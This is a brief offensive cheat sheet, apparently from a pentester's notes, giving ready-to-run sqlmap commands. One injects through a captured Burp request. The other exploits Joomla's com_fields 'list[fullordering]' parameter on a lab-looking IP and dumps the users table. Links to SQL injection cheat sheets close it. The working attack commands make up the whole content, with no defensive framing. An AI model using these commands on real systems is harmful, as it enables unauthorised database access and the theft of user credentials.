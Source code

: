 ##### SQL injection against a Web site.  Copy Burp intercept to file and pass file to sqlmap.
```bash
sqlmap -r interceptfilename -p username
```

##### Joomla
```bash
sqlmap -u "http://10.10.201.23/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump -batch -p list[fullordering]
```

<https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet>
<https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/>